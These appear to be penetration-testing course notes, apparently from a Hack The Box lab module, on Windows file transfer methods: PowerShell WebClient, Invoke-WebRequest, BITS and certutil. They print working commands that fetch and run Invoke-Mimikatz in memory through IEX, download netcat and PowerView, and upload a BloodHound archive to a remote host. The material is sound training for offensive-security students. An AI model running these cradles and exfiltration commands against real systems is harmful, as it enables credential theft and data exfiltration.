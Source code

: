 ```yaml
---
category: Uncategorized
tags: []
---
```

# PowerShell Downloads

## System.Net.WebClient
In most environments, HTTP/HTTPS traffic is allowed out of the firewall in some form - and if we have a GUI session, a web browser could also be used. However, from a Windows shell, PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP.

```powershell
PS C:\htb> (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

From PowerShell 3.0, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases iwr, curl, and wget can be used instead of Invoke-WebRequest.

```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias iex.

```powershell 
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.
```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
![Picture_of_IEengine](https://academy.hackthebox.com/storage/modules/24/IEerror.png)
![Picture_of_IE](https://academy.hackthebox.com/storage/modules/24/IE_settings.png)

This can be bypassed using the parameter -UseBasicParsing.

```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
PS C:\htb> Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```powershell 
C:\htb> reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

## PowerShell File Uploads

It is also possible to upload files using Powershell using Invoke-WebRequest or Invoke-RestMethod.

```powershell  
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
```
```powershell
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```
After catching the base64 data with Netcat, the payload can be decoded.

```powershell  
Ryohei@htb[/htb]$ echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitsadmin
The Background Intelligent Transfer Service (BITS) can download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user’s foreground work.

````powershell  
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
````
PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

## Download
````powershell
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
````
## Upload
````powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
````

## Certutil
Casey Smith (@subTee) found that certutil can be used to download arbitrary files. It is available in all Windows versions and has been a very popular file transfer technique, essentially serving as Wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
```powershell
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
